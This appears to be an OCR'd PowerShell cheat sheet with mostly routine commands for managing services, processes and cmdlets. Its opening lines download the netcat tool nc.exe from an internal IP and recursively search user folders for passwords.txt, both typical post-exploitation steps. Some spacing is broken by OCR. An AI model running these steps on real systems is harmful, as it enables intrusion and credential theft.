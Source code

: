 Wget in Powershell:

```text
(New-Object System.Net.WebClient).DownloadFile("http://10. 10.10.10/nc.exe","nc.exe")
```

Find all files with a particular name:

```text
Get-ChildItem "C:\Users\" -recurse -include passwords.txt
```

List programs which start automatically in registry:

```text
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersio n\run
```

## Powershell Service, Porcess Interaction and more

Start Maximized Notepad:

```text
Start-Process notepad -WindowStyle Maximized
```

Powershell running processes:

```text
Get-Service | Where-Object { $_.Status -eq "Running" } | Sort-Object -Property Name
```

Powershell stoppedprocesses:

```text
Get-Service | Where-Object { $_.Status -eq "Stopped" } | Sort-Object -Property Name
```

Powershell start firefox application and then in an expanded view:

```text
Start-Process Firefox
Start-Process Firefox -WindowStyle Maximized
```

Powershell - stop process by number or name:

```text
Stop-process 908
Stop-process -Name Firefox
```

Powershell - provide list of various options we have with -service:

```text
Get-command -Noun Service
```

Powershell - find all cmdlets provided by the module

```text
Get-Command -Module VMware
```
